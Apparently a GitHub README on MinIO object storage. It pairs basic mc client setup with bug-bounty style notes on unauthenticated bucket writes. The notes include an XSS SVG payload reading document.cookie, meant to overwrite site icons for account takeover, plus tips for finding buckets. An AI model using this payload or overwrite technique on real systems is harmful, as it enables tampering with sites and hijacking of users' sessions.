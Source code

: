 <h1 align="center">
  <br>
  <a href=""><img src="/img/logo.png" alt="" width="300px;"></a>
  <br>
  <img src="https://img.shields.io/badge/PRs-welcome-blue">
  <img src="https://img.shields.io/github/last-commit/kh4sh3i/MinIO">
  <img src="https://img.shields.io/github/commit-activity/m/kh4sh3i/MinIO">
  <a href="https://twitter.com/intent/follow?screen_name=kh4sh3i_"><img src="https://img.shields.io/twitter/follow/kh4sh3i_?style=flat&logo=twitter"></a>
  <a href="https://github.com/kh4sh3i"><img src="https://img.shields.io/github/stars/kh4sh3i?style=flat&logo=github"></a>
</h1>




# MinIO
MinIO Object Storage 🧮

# Minio Console
To copy a file from your localhost to a MinIO server using the mc (MinIO Client), follow these steps:

## 1. Install mc client:
```
curl -O https://dl.min.io/client/mc/release/linux-amd64/mc
chmod +x mc
sudo mv mc /usr/local/bin/
```

## 2. Configure MinIO Client:
```
mc alias set myminio http://minio-server-url:9000 YOUR-ACCESS-KEY YOUR-SECRET-KEY

```

## 3. Copy a file from localhost to MinIO:
```
mc cp /home/user/example.txt myminio/mybucket/
```

# minio vunlenability
by default bucket is public and attacker can write file in minio bucket without any credential !

* default is :
```
mc alias set myminio/ http://MINIO-SERVER MYUSER MYPASSWORD
```

* in vulnerable server use :
```
mc alias set myminio/ http://MINIO-SERVER 
```

## ATO in minio
minio bucket with insufficient permissions that anyone can upload files and overwrite existing files . Attacker can upload malicious svg and overwrite existing icons and takeover any other users account that clicks on application icons such as "sort"

Example of malicious overwritten file :

```
<svg onclick="javascript:console.log(document.cookie)" width="16" height="16" viewBox="0 0 16 16" fill="none" xmlns="http://www.w3.org/2000/svg">
<path d="M2 12V10.6667H6V12H2ZM2 8.66667V7.33333H10V8.66667H2ZM2 5.33333V4H14V5.33333H2Z" fill="#13141F" fill-opacity="0.9"/>
</svg>
```
now we can access :
```
https://cdn.target.com/@foo-icon/sort.png
https://minio.target.app/foo-icon/sort.png
```


## find bucket url
default use @ in url 
```
https://cdn.target.com/@foo-icon/e0a9c740db7682.jpg?width=1920&quality=100

recon subdomani for find minio bucket subdomain : 
https://minio.target.app/foo-icon
```





# Refrence
[min.io](https://min.io/download?license=agpl&platform=linux)